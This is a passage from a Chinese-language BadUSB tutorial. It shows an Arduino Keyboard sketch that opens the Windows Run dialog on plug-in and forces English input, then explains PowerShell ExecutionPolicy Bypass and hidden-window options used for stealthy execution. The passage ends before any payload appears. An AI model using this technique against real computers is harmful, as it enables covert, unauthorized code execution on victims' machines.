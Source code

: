 ```c
#include <Keyboard.h>

void setup() {
  //Payload
}

void loop() {
  //none
}
```

用到了一个Keyboard库定义了按键，键盘上一些无法输入的按键需要查看定义的名称，其库文件在github上也可以看到：
<https://github.com/arduino-libraries/Keyboard/blob/master/src/Keyboard.h>

其中对我们有用的只有setup，即板子上电，也就是插入的瞬间便开始执行的部分，loop部分留空。

笔者本人用的windos系统，这里仅讨论windos。若要在windows下仅仅通过键盘执行一段脚本或程序，最经典的方式就是Ctrl+R了。在windos8及以上的操作系统中Win键+S之后，输入powershell或cmd，之后再按回车也可以开始写命令。

代码如下，蛋疼的地方在于中文的输入法可以很大程度上避免被BadUSB攻击，但是我们在脚本中也可以利用默认的一些快捷键切换到英文输入法。再加上Windows系统不区分大小写，从某些程度上讲只用到大写锁定键足矣。

```c
delay(1000);
Keyboard.press(KEY_LEFT_GUI);
Keyboard.press('r');
Keyboard.releaseAll();
delay(500);

//针对shift+ctrl切换输入法
Keyboard.press(KEY_LEFT_SHIFT);
Keyboard.press(KEY_LEFT_CTRL);

//针对win8及以上部分操作系统改换中文输入
Keyboard.press(KEY_LEFT_GUI);
Keyboard.println(' ');

//某些输入法的中英文切换
Keyboard.press(KEY_LEFT_SHIFT);

//暴力直接切换成英文
Keyboard.press(KEY_CAPS_LOCK)

//手动释放按键
Keyboard.releaseAll();
```

## powershell的各种姿势

既然“运行”对话框已经打开，下一步需要做的便是执行代码了。在这里我们需要用到一些powershell启动的高级姿势。

### 启动选项
在cmd或者powershell中输入"powershell -?"便可以得到所有的启动选项，这里我们主要关注其中的两个：ExecutionPolicy和WindowStyle。由于powershell的默认ExecutionPolicy是RemoteSigned。即下载脚本必须可信，换句话说就是用户脚本不能执行。所以我们需要设置该字段为Unrestricted或者Bypass。而WindowStyle设置为Hidden时可以隐藏窗口执行，这对隐蔽性很有帮助。
